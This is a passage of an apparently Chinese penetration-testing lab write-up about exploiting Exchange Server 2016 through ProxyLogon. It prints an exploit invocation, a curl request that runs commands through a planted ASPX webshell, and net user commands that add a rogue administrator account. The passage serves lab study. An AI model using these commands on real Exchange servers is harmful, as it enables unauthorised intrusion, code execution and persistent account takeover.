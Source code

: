 
经过测试，发现存在版本漏洞 `Exchange Server 2016 [ProxyLogon](https://github.com/hausec/ProxyLogon)漏洞`

### exchange 服务 getshell

`Poc`

```plain
proxychains python3 exprolog.py -t 172.22.3.9 -e administrator@xiaorang.lab

proxychains curl --request POST --url https://172.22.3.9/owa/auth/ncyev.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```

[![](assets/1710899037-32b2fc77b9e36445fffe54a7fb59e4c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205043-d1e67318-d56e-1.png)

利用漏洞，进行添加 `管理员用户test`

```plain
net user test P@ssw0rd /add
net localgroup administrators test /add
```

这里有个点，kali `rdesktop` 链接失败，可安装 `Remmina` 代替，这里我们采取的方法是用 windows 物理机 `mstsc` 链接  
参考：[Kali Linux 2020.02 安装 Remmina 远程桌面客户端\_kali remmina-CSDN 博客](https://blog.csdn.net/qq89115156/article/details/106853619)

[![](assets/1710899037-784e0ac40b6b9c8b9ff07a862dee8f1e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205050-d589710a-d56e-1.png)
